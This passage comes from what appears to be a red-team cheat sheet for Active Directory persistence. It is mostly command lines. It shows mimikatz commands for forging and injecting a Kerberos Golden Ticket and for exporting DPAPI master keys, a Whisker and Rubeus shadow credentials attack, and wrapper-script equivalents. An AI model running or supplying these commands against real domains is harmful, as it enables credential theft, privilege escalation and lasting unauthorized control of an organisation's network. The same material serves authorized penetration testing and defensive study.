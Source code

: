 **Automated:**
```bash
# No direct automation provided in the toolset for trust exploitation
# Would require custom commands based on the specific trust relationship
```

---

## Persistence

### Golden Ticket

**Manual:**
```bash
# Create a Golden Ticket (already covered in Kerberos Attacks section)
mimikatz.exe
privilege::debug
kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /krbtgt:hash /user:Administrator /ptt
```

**Automated:**
```bash
# Using Mimikatz wrapper
./mimikatz-wrapper.py local golden -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

### DPAPI Backdoor

**Manual:**
```bash
# Backup the DPAPI master key
mimikatz.exe
privilege::debug
dpapi::masterkey /in:"%APPDATA%\Microsoft\Protect\S-1-5-21-...\[MasterKeyGUID]" /export
exit
```

**Automated:**
```bash
# Using Mimikatz wrapper for DPAPI extraction
./mimikatz-wrapper.py local all
```

### Shadow Credentials Attack

**Manual:**
```bash
# Using Whisker
Whisker.exe add /target:targetuser

# Verify and use the newly added credentials
Rubeus.exe asktgt /user:targetuser /certificate:[certificate] /password:[password]
```
